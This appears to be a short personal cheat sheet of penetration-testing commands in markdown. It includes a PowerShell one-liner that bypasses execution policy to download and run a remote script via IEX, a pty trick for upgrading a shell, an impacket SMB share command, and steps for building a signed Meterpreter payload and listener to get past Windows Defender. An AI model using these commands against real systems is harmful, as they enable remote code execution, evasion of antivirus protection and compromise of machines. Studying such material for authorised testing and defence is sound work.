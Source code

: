# Notes
## PowerShell
### To load a PS module into the memory
```powershell
powershell.exe -exec bypass -Command “IEX (New-Object Net.WebClient).DownloadString($URL);
# Here call the modules you want to execute, depending on the usage of what you have downloaded
```
## Utils
### Shell to TTY
```bash
python -c "import pty;pty.spawn('/bin/bash')"
Ctrl + z
stty raw -echo
fg
```
### Sharing files with Windows machine
**NOTE:** This technique is usefull also to share files with any Windows VM *(or the parent host)* 
```bash
impacket-smbserver share <path> -smb2support
```
## PrivEsc on Windows
### Bypassing Windows Defender
There're a [usefull scripts](https://astr0baby.wordpress.com/2019/01/26/custom-meterpreter-loader-in-2019/), from **Astr0baby's blog**, just copy-paste them. 

**NOTE:** There're some replaces needed in the listener.sh script:

1. *Line 12:* remove the ./ from the call to msfconsole
2. *Line 16:* add -job after the run sentence

```bash
./msf-loader.sh
# introduce LHOST
# introduce LPORT
# domain to impersonate?
# The process should have created a 'payload.exe' and also 'payload-signed.exe'
./listener.sh
# Define the LHOST
# Define the LPORT
# Now the payload shall be ran into the target

